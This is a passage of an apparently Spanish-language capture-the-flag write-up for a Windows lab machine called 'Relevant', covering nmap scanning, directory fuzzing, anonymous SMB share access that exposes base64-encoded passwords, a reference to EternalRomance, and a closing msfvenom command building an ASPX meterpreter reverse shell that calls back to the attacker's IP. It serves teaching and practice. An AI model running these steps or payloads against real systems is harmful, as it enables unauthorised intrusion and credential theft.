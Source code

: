 # Relevant

# Introducción

Un cliente nos ha contratado y quiere que hagamos un test de penetración.

EL ciente solicita que el ingeniero haga una evaluación de enotrno. 

- User.txt
- Root.txt

Adicionalmente:

- Herramientas y tecnicas utilizadas
- Vulnerabilidades encontradas
- Flags que hemos encontrado
- Solo IP que tenemos asiganda
- Busca y reporta todas las vulnerabilidades

# Enumeración

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.12.208

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-11 15:40 GMT
Nmap scan report for ip-10-10-12-208.eu-west-1.compute.internal (10.10.12.208)
Host is up (0.00024s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2024-11-10T15:38:06
|_Not valid after:  2025-05-12T15:38:06
|_ssl-date: 2024-11-11T15:40:29+00:00; 0s from scanner time.
MAC Address: 02:2D:9C:6E:47:D1 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 02:2d:9c:6e:47:d1 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-11-11T07:40:29-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-11 15:40:29
|_  start_date: 2024-11-11 15:38:25

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.48 seconds
```

Primero de todo enumeramos la web (80) 

![image](https://github.com/user-attachments/assets/2a10e83a-90e4-4921-a5ba-d82f68d765cb)

Vemos que es una ISS sin ningún tipo de configuración vamos a enumera subdominios a ver si encontramos algo.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.12.208/FUZZ
```

SPOILER: No encontramos nada, vamos a buscar otro vector.

Vemos también el puerto smb abierto, pudiendo enumerar SMB

```
smbclient -L //10.10.12.208
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.12.208 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
```

Vaya vaya "nt4wrksv" vamos a ver si tenemos acceso

```
smbclient  //10.10.12.208/nt4wrksv
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 22:46:04 2020
  ..                                  D        0  Sat Jul 25 22:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 16:15:33 2020

		7735807 blocks of size 4096. 5135178 blocks available
```

Hacemos un Get y nos lo llevamos

```
cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Parece ser que nos encontramos dos hashes en base64 vamos a intentar hacer una base64 -d

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

Vaya vaya tenemos ya dos usuarios, SPOILER: No son ni para Xfreerdp ni para SSH, vamos a seguir enumerando a ver si encontramos lugar para meter credenciales o vulnerabilidades en servicios.

Después de estar buscando y enumerando encontramos la vulnerabilidad tan famosa "EternalRomance"

https://www.exploit-db.com/exploits/43970

# Explotación

Primero de todo generaremos un rev shell con msfvenom 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.10.30.244 lport=9001 -f aspx -o reverse_shell.aspx
```



